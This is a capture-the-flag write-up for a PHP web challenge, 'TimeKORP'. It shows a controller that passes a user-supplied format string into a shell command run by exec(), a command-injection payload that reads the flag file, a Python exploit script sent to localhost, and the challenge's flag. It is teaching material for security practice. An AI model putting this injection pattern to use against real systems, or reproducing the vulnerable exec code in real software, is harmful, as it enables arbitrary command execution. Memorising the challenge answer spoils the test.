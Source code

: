 # TimeKORP

TBD

## Writeup

In the **TimeController.php** we can pass a **format** GET param:

```php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

This param is used to inizialize the **TimeModel** object:

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
        echo $command;
    }

    public function getTime()
    {
        $time = exec($this->command);
        echo $time;
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

Inside the constructor of the class, there is a **command injection** vulnerability. So we can send this as **format** parameter:

```
?format='; cat ../flag #
```

To make the exploit working, need to URL encode the **#** mark.

The final exploit is:

```python
#!/usr/bin/python3
import requests
import re

ip = "localhost"
port = 1337

url = f"http://{ip}:{port}/"

payload = "'; cat ../flag %23"

req = requests.get(url + f"?format={payload}")

print(req.text)
```

The flag is:

```
HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}
```